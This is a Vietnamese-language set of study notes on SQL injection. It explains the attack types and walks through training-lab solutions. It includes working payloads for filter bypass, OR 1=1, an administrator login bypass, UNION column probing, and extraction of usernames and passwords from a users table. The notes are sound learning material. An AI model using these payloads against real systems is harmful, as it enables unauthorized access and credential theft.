# SQL Injection

---

**What is SQL injection (SQLi)?**

> Là lỗi bảo mật web cho phép attacker can thiệp vào các truy vấn đối với CSDL. Thường sẽ cho phép attacker xem data mà không được cấp phép. Nhiều case thì attacker có thể thêm, sửa, xóa dữ liệu tùy ý.

---

**Tác hại của SQLi**

> Một cuộc attack SQLi thành công sẽ dẫn tới hậu quả khó lường như bị truy cập vào những data bí mật, nhạy cảm chẳng hạn như passwd, thẻ tín dụng, thông tin cá nhân...

---

**SQLi example**

1. Retrieving hidden data: Sửa đổi truy vấn SQL để trả về thêm kết quả
2. Subverting applicatication logic: Thay đổi query để can thiệp vào logic của app
3. Union attacks: Truy xuất các data từ các table khác nhau
4. Examining the database: Trích xuất thông tin về version, structure của database
5. Blind SQL injection: Kết quả query sẽ được trả về trong response của app

---

## Retrieving hidden data

Ví dụ:

```
https://insecure-website.com/products?category=Gifts
```

Trên database query với `category= Gifts` và đã được bán với `released=1`:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Attacker có thể sửa lại query và hiện thị tất cả các sản phâm kể cả chưa released hay đã released:

```
https://insecure-website.com/products?category=Gifts'--
```

Query trên db:

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Với **--** là comment trong SQL, nó sẽ bỏ qua `AND released = 1`

Đi xa hơn, attacker có thể khiến ứng dụng hiện thị tất cả sản phẩm trong bất kì `category` nào:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Query:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Vì 1=1 là luôn đúng, query sẽ trả về tất cả

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Khi người dùng chọn một danh mục, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection khiến ứng dụng hiển thị chi tiết của tất cả các sản phẩm trong bất kỳ danh mục nào, cả đã phát hành và chưa phát hành.

Bài này chỉ cần thêm chuỗi `'--` sẽ ra tất cả các sản phẩm của 1 category
Hoặc lấy tất cả category thì thêm chuỗi `' OR 1=1--`

Nếu sử dung trên burp suite thì phải control + u để encode sang html



---

## Subverting application logic

Một ứng dụng cho phép user đăng nhập bằng username + passwd.
Đây là cách DB query:

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Attacker có thể thêm `--` để bỏ yêu cầu passwd trên DB

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

### Lab: SQL injection vulnerability allowing login bypass

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong chức năng đăng nhập.

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công chèn SQL đăng nhập vào ứng dụng với tư cách là người dùng quản trị viên.

Bài này chỉ cần nhập input của user thêm chuỗi `'--`:




## Retrieving data from other database tables - SQL injection UNION attacks

> Nhiều case kết quả trả về của query sql ở trong response của ứng dụng, attacker có thể tận dụng để lấy data của các bảng khác trong CSDL. Điều này được thực hiện bằng `UNION`

Ví dụ: Nếu ứng dụng thực hiện query sau chứ input là `Gifts`:

```
SELECT name, description FROM products WHERE category = 'Gifts'
```

Attacker có thể sửa:

```
' UNION SELECT username, password FROM users--
```

-> Nó sẽ trả về tất cả username, passwd từ bảng users

Ví dụ Attack SQLi Union:

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Nó sẽ return một tợp hợp kết quả có 2 cột chứa cột a, b trong table1 và cột c, d trong table 2

Để UNION hoạt động thì phải đáp ứng 2 yêu cầu:

1. Các query riêng rẻ phải trả về cùng một số cột
2. Kiểu dữ liệu trong mỗi cột phải tương thích giữa các query riêng lẻ

Để attack thành công UNION thì phải biết:

1. Có bao nhiêu cột
2. Những loại dữ liệu của cột như string, int...

---

**Determining the number of columns required in an SQL injection UNION attack**
Khi thực hiện UNION attack, có 2 cách để xác định có bao nhiêu cột:

1. `ORDER BY` tăng số cột tới khi lỗi:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

2. Gửi payload UNION SELECT NULL:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

Nếu số lượng `null` không phù hợp sẽ trả về lỗi như:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để lấy dữ liệu từ các bảng khác. Bước đầu tiên của một cuộc tấn công như vậy là xác định số cột đang được trả về bởi truy vấn. Sau đó, bạn sẽ sử dụng kỹ thuật này trong các phòng thí nghiệm tiếp theo để xây dựng cuộc tấn công đầy đủ.

> Để giải quyết phòng thí nghiệm, hãy xác định số cột được trả về bởi truy vấn bằng cách thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa giá trị null.


Bài này có 3 bảng, thêm `' ORDER BY 1` tăng dần tới 3 thì có 3 bảng: 


C2 là thêm payload: `' UNION SELECT NULL--`, server trả về error thì thêm `, NULL` tới khi trả về response 200:
  

---

**NOTE**

1. Lý do sử dụng `NULL` vì các kiểu dữ liệu trong mỗi cột phải tương thích với nhau. NULL có thể thành mọi kiểu dữ liệu thường được sử dụng
2. Trên `Oracle` mọi query `SELECT` phải sử dụng `FROM` và chỉ định 1 table valid. Oralce có một bảng là `dual`:

```
' UNION SELECT NULL FROM DUAL--
```

3. Tùy vào payload, comment là `--` hoặc `#`

---

**Finding columns with a useful data type in an SQL injection UNION attacks**

> Tìm kiểu dữ liệu của từng cột. Vậy sao khi tìm được số lượng cột thì có thể thăm dò dữ liệu bằng cách gửi payload:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Nếu dữ liệu không tương thích thì sẽ trả về error:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

### Lab: SQL injection UNION attack, finding a column containing text

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để lấy dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, trước tiên bạn cần xác định số cột được trả về bởi truy vấn. Bạn có thể làm điều này bằng cách sử dụng một kỹ thuật bạn đã học trong phòng thí nghiệm trước đó. Bước tiếp theo là xác định một cột tương thích với dữ liệu chuỗi.

> Phòng thí nghiệm sẽ cung cấp một giá trị ngẫu nhiên mà bạn cần để xuất hiện trong kết quả truy vấn. Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa giá trị được cung cấp. Kỹ thuật này giúp bạn xác định cột nào tương thích với dữ liệu chuỗi.

Sau khi xác định được số bảng bằng cách thêm `' UNION SELECT NULL, NULL, NULL--` vào thì thấy 3 bảng.

Xác định trường dữ liệu bằng các `'UNION SELECT NULL, 'a', NULL--` thì biết bảng 2 là string, thấy trên tiêu đề bài có tên bảng, thay tên bảng đó vào sẽ solve:


---

**Using an SQL injection UNION attack to retrieve interesting data**

> Khi đã xác định được số lượng cột, table thì có thể query được data.

```
' UNION SELECT username, password FROM users--
```

### Lab: SQL injection UNION attack, retrieving data from other tables

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để lấy dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật bạn đã học trong các phòng thí nghiệm trước đó.

> Cơ sở dữ liệu chứa một bảng khác được gọi là người dùng, với các cột được gọi là tên người dùng và mật khẩu.

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu, đồng thời sử dụng thông tin để đăng nhập với tư cách là người dùng quản trị viên.

Đầu tiên sẽ xác định có bao nhiêu cột trên db, xác định trường giá trị sau đó query trên bảng users đề bài cho:
    